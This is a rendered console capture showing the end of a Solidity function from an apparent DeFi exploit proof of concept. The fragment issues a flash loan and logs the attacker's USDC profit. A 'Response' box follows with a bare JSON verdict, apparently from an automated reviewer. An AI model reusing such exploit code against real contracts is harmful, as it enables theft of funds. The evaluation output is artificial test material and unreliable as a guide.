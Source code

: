 │             address(this),                                                                                                                                                                                                                           │
│             _assets,                                                                                                                                                                                                                                 │
│             _amounts,                                                                                                                                                                                                                                │
│             _modes,                                                                                                                                                                                                                                  │
│             address(this),                                                                                                                                                                                                                           │
│             new bytes(1),                                                                                                                                                                                                                            │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         emit log_named_uint(                                                                                                                                                                                                                         │
│             "After exploit repaid, profit in USDC of attacker:",                                                                                                                                                                                     │
│             USDC.balanceOf(address(this)) / 1e6                                                                                                                                                                                                      │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│                                                                                                                                                                                                                                                      │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │